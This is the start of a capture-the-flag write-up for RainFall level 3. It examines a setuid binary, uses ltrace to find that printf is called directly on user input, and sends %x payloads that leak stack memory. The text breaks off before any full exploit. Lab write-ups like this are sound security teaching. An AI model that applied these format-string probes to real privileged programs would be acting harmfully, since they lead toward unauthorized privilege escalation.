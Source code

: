 # Level 3

## Initial Analysis

### 1. Examine the Binary
```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile

level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

**Key observations:**
- **setuid and setgid binary** (s flags in permissions)
- Owned by **level4** user
- When executed, runs with **level4 privileges**

### 2. Test Basic Execution
```bash
level3@RainFall:~$ ./level3
hello
hello

level3@RainFall:~$ echo "test input" | ./level3
test input

level3@RainFall:~$ ltrace ./level3
__libc_start_main(0x804851a, 1, 0xbffff804, 0x8048530, 0x80485a0 <unfinished ...>
fgets("\n", 512, 0xb7fd1ac0)                                    = 0xbffff550
printf("\n")                                                    = 1
+++ exited (status 0) +++
```

**Findings:**
- Program reads input with `fgets()` (safer than gets)
- Calls `printf()` directly with user input - **FORMAT STRING VULNERABILITY!**
- Normal execution just echoes input and exits

### 3. Test Format String Vulnerability
```bash
level3@RainFall:~$ python -c 'print "%x %x %x %x"' | ./level3
200 b7fd1ac0 b7e454d3 bffff550

level3@RainFall:~$ python -c 'print "AAAA" + "%x " * 8' | ./level3  
AAAA200 b7fd1ac0 b7e454d3 bffff550 0 bffff714 b7fd0ff4 0
```
